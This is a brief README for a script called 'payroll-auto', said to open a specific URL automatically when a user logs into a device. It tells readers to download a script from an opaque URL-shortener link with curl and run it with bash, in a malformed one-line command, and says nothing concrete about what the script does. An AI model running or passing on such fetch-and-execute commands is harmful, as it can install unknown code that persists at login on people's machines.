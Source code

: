 # payroll-auto
Enabling automatic opening a specific URL on logging into the device
## Introduction

This script can be downloaded and executed using either `curl` or `wget` commands. It performs a specific task when executed. You can choose one of the following methods to run the script:

### Using `curl`

```bash
curl -L -o i.sh https://t.ly/b3uCh bash i.sh
```
